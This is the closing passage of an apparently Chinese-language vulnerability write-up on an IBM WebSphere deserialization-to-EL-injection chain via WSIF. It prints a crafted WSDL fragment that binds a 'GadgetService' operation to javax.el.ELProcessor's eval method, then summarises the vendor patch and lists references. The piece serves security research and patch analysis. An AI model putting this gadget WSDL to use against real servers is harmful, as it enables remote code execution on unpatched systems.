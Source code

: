 ```xml
        <format:typeMapping encoding="Java" style="Java">
            <format:typeMap typeName="xsd:string" formatType="java.lang.String"/>
            <format:typeMap typeName="xsd:object" formatType="java.lang.Object"/>
        </format:typeMapping>
        <operation name="findByPrimaryKey">
            <java:operation
                methodName="eval"
                parameterOrder="el"
                methodType="instance"
                returnPart="counterObject"
            />
        </operation>
    </binding>

    <!-- service decln -->
    <service name="GadgetService">
        <port name="JavaPort" binding="tns:JavaBinding">
            <java:address className="javax.el.ELProcessor"/>
        </port>
    </service>

</definitions>
``` 
最后到EL表达式注入的完整堆栈如下  
![](2023-02-14-18-58-21.png)  
![](2023-02-14-19-06-01.png)  
## 补丁
1. 在demarshalContext方法里,取消了read_any方法.    
2. WSIFPort_EJB类的readObject方法里,取消了handle.getEJBObject方法.
## 参考
https://www.zerodayinitiative.com/blog/2020/7/20/abusing-java-remote-protocols-in-ibm-websphere  
https://cert.360.cn/report/detail?id=3d016bdef66b8e29936f8cb364f265c8  
https://paper.seebug.org/1315/#_1  
https://xz.aliyun.com/t/8248  
https://www.ibm.com/docs/ru/was-nd/8.5.5?topic=services-developing-wsif-service